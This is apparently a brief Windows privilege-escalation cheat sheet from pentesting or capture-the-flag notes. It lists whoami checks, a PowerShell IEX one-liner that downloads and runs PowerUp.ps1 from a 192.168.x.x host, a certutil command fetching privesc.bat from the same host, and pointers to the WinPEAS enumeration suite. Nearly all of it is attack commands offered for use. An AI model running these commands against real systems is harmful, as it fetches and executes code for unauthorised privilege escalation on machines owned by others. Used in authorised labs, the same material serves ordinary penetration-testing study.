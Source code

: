 #### Steps ####

```whoami```

```whoami /priv```

```powershell "IEX(New-Object Net.WebClient).DownloadString('http://192.168.x.x:8000/PowerUp.ps1')"```

```certutil.exe -urlcache -split -f http://192.168.x.x:8000/privesc.bat privesc.bat```

```WinPeas```

> https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
